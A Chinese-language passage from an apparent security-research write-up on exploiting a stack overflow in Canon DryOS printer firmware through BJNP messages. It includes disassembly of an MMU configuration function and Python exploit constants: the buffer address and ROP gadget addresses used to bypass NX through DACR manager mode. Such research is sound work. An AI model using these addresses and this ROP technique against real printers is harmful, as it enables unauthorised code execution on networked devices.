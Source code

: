 DryOS作为一款轻量级实时操作系统（RTOS），未启用栈金丝雀（stack canaries）、地址空间布局随机化（ASLR）等安全防护机制。参考此前Pwn2Own竞赛中Synacktiv团队的公开方案，其利用栈溢出向静态内存写入Shellcode，并通过劫持执行流跳转至该地址（Shellcode通过BJNP SessionStart消息传递至打印机）。尽管内存地址和执行流指向正确，但操作系统跳转后崩溃。通过UART日志分析，确认佳能固件已引入  
NX（不可执行）保护  
，导致存储Shellcode的消息缓冲区内存区域被标记为不可执行，触发页面访问错误。由于打印机RTOS未实现权限分离，漏洞所在的解析模块以高权限运行。基于ARM架构特性，可通过修改内存管理单元（MMU）的  
域访问控制位  
为“管理模式”，绕过内存执行限制。具体方案为：构造  
ROP链  
激活管理模式，再跳转至消息缓冲区中的Shellcode。ROP链构造的核心是复用固件中现有的MMU配置函数，通过寻找特定gadget（如寄存器操作指令序列），利用ARM特权指令重新配置MMU域权限，使不可执行内存区域变为可执行。固件中存在的MMU配置函数为这一利用提供了关键支撑，如下代码所示。  
  

```
ROM:411AEDDC ; int __fastcall sub_411AEDDC(int)
ROM:411AEDDC sub_411AEDDC                            ; CODE XREF: ROM:40BB570C↑p
ROM:411AEDDC                                         ; ROM:40BB57A0↑p
ROM:411AEDDC                 LDR             R1, =0x55555555
ROM:411AEDE0                 MCR             p15, 0, R1,c3,c0, 0// [1] Jump here
ROM:411AEDE4                 LDR             R1, =0xFFFFC000
ROM:411AEDE8                 AND             R0, R0, R1
ROM:411AEDEC                 MOV             R1, #0
ROM:411AEDF0                 ORR             R0, R0, R1
ROM:411AEDF4                 MCR             p15, 0, R0,c2,c0, 0
ROM:411AEDF8                 MOV             R1, #0
ROM:411AEDFC                 MCR             p15, 0, R1,c8,c7, 0
ROM:411AEE00                 MRC             p15, 0, R1,c1,c0, 0
ROM:411AEE04                 ORR             R1, R1, #1
ROM:411AEE08                 DSB             SY
ROM:411AEE0C                 MCR             p15, 0, R1,c1,c0, 0
ROM:411AEE10                 ISB             SY
ROM:411AEE14                 BX              LR

```

  
  
利用方法:  
- 将所有域的访问权限设置为“客户端模式”  
  
- 设置转换表的基地址  
  
- 使转换后备缓冲器（TLB）失效  
  
- 在系统控制寄存器中启用内存管理单元（MMU）  
  
- 使用屏障指令（DSB/ISB）确保正确的内存和指令顺序  
  
从技术实现角度来看，此代码片段通过R0寄存器传递页表基址，完成了对ARM架构内存管理单元（MMU）的初始化配置。具体而言，其通过设置TTBR0（转换表基址寄存器0）建立虚拟地址到物理地址的映射关系，并将SCTLR（系统控制寄存器）的XN位（eXecute Never）置1以激活NX（不可执行）保护机制，从而确保数据段（如栈、堆）不会被误解析为可执行代码。  
  
  
在安全攻防层面，该团队采用了基于域访问控制机制的特权提升策略。通过构造精心设计的ROP（返回导向编程）链，利用内核空间中存在的可控内存操作原语，将DACR（域访问控制寄存器）的16个域访问权限位全部设置为0b11（对应0xffffffff），即Manager模式。这种配置会使MMU在进行地址转换时忽略页表条目中XN位的限制，从而允许在原本被标记为不可执行的内存区域执行恶意代码。  
  

```
# Static address of the BNJP message buffer. Search MFNP Cmd. There is a referece at beginning of function
BJNP_BUF = 0x47429460

# Offset into function, which sets the mode of the MMU
DISABLE_ACCESS_CHECKS = 0x411aede0

# Return gadget 
GADGET_RET = 0x40b03de0 + 1

# 0x00000000413dbcce : pop.w {r1, r2, r3, r4, r6, lr, pc} ;
GADGET_POP_LR = 0x413dbcce + 1

```